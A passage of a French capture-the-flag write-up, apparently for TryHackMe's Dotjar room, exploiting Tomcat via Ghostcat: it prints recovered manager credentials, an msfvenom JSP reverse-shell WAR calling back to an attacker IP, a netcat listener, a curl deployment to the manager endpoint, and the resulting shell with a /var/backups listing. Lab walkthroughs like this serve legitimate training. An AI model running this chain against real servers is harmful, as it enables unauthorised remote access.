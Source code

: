 Tomcat est vulnérable à la faille ghostcat.  
Nous lisons des identifiants dans le fichier WEB-INF/web.xml.     
Les identifiants sont : webdev:Hgj3LA$02D$Fa@21  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.228.66 LPORT=1234 -f war -o revshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
Saved as: revshell.war
```

On crée un reverse shell à injecter.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le port 1234 pour avoir le shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --user 'webdev:Hgj3LA$02D$Fa@21' --upload-file revshell.war  "http://dotjar.thm:8080/manager/text/deploy?path=/revshell.war"
OK - Deployed application at context path [/revshell.war]
```

On injecte notre reverse shell.   

![page](./Task1-01.png)  

On exécute l'exploit.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.65.148.
Ncat: Connection from 10.10.65.148:35628.
id
uid=1001(web) gid=1001(web) groups=1001(web)
python3 -c 'import pty;pty.spawn("/bin/bash")'

web@vulnnet-dotjar:/$ cd /var/backups
cd /var/backups
ls -al
total 2652
drwxr-xr-x  2 root root      4096 Oct 25 17:46 .
drwxr-xr-x 13 root root      4096 Jan 15  2021 ..
-rw-r--r--  1 root root    102400 Oct 25 17:46 alternatives.tar.0
-rw-r--r--  1 root root      2763 Jan 15  2021 alternatives.tar.1.gz
-rw-r--r--  1 root root     13208 Jan 31  2021 apt.extended_states.0
-rw-r--r--  1 root root      1419 Jan 31  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      1542 Jan 15  2021 apt.extended_states.2.gz
-rw-r--r--  1 root root        11 Jan 15  2021 dpkg.arch.0
-rw-r--r--  1 root root        43 Jan 15  2021 dpkg.arch.1.gz
-rw-r--r--  1 root root        43 Jan 15  2021 dpkg.arch.2.gz
-rw-r--r--  1 root root        43 Jan 15  2021 dpkg.arch.3.gz
-rw-r--r--  1 root root       280 Jan 15  2021 dpkg.diversions.0
```